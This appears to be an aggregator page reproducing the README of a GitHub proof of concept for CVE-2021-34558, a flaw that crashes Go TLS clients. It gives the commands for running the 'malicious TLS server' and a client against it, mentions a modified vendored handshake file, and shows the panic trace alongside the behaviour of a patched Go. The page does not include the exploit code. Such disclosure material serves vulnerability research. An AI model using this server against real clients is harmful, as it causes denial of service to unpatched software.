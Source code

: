 # cve-2021-34558

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/alexzorin](https://github.com/alexzorin) |
| Url      | [https://github.com/alexzorin/cve-2021-34558](https://github.com/alexzorin/cve-2021-34558)                                               |
| Stars    | 45                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# POC for CVE-2021-34558

```bash
# Run the malicious TLS server
go run main.go -mode server 

# Run a normal `http.Get` client call against the server which panics
go run main.go -mode client
```

There is a minor modification to `./vendor/github.com/refraction-networking/utls/handshake_server.go` to enable the malicious handshake to be sent with a mismatching certificate/cipher.

It looks like this:

    $ go run main.go -mode client

    panic: interface conversion: interface {} is *ecdsa.PublicKey, not *rsa.PublicKey

    goroutine 7 [running]:
    crypto/tls.rsaKeyAgreement.generateClientKeyExchange(0xc000001c80, 0xc00014a000, 0xc000130580, 0x0, 0x0, 0x4, 0x6e9da0, 0x7fe73e42e201, 0xc00001c758)
            /usr/local/go/src/crypto/tls/key_agreement.go:70 +0x3a6
    crypto/tls.(*clientHandshakeState).doFullHandshake(0xc00015fd48, 0xc00001a380, 0x31)
            /usr/local/go/src/crypto/tls/handshake_client.go:574 +0x5e9
    crypto/tls.(*clientHandshakeState).handshake(0xc00015fd48, 0xc00001c418, 0x4)
            /usr/local/go/src/crypto/tls/handshake_client.go:421 +0x566
    crypto/tls.(*Conn).clientHandshake(0xc00007f180, 0x0, 0x0)
            /usr/local/go/src/crypto/tls/handshake_client.go:220 +0x754
    crypto/tls.(*Conn).Handshake(0xc00007f180, 0x0, 0x0)
            /usr/local/go/src/crypto/tls/conn.go:1391 +0xc9
    net/http.(*persistConn).addTLS.func2(0x0, 0xc00007f180, 0x0, 0xc0000624e0)
            /usr/local/go/src/net/http/transport.go:1530 +0x45
    created by net/http.(*persistConn).addTLS
            /usr/local/go/src/net/http/transport.go:1526 +0x1f6
    exit status 2

A patched version of Go (1.16.6+) does not crash:

    $ go run main.go -mode client
    2021/07/13 06:13:50 <nil> Get "https://127.0.0.1:8443/": tls: server certificate contains incorrect key type for selected ciphersuite


## Get the content

```
git clone https://github.com/alexzorin/cve-2021-34558
cd cve-2021-34558
```

{% embed url="https://github.com/alexzorin/cve-2021-34558" %}

<figure><img src="https://avatars.githubusercontent.com/u/311534?v=4" alt=""><figcaption><p>alexzorin</p></figcaption></figure>
